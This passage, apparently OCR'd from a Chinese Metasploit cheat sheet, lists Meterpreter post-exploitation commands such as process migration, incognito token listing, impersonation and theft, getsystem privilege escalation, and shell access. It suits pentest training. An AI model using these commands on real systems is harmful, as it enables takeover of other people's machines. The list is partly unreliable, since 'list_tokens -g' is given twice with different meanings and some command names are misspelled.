 删除当前数据库

db_destory user:password@host:port/datebase

使用高级选项来删除数据库

二、Meterpreter命令
help

打开使用帮助

run scriptname

运行Meterpreter脚本，在scripts/meterpreter目录下查看所有脚本名

sysinfo

列出受控主机的系统信息

ls

列出主机的文件和文件夹信息

use priv

加载特权提升拓展模块，来扩展Meterpreter库

ps

显示所有运行进程以及关联的用户账户

migrate PID

迁移到一个指定的进程ID（PID号可通过ps命令从目标主机上获得）

use incognito

加载incognito功能（用来盗窃目标主机的令牌或是假冒用户）

list_tokens -g

列出目标主机用户的可用令牌

list_tokens -g

列出目标主机用户组的可用令牌

impersonate_token DOMAIN_NAME\\USERNAME

假冒目标主机上的可用令牌

steal_token PID

盗窃给定进程的可用令牌并进行令牌假冒

drop_token

停止假冒当前令牌

getsystem

通过各种攻击向量来提升系统用户权限

shell
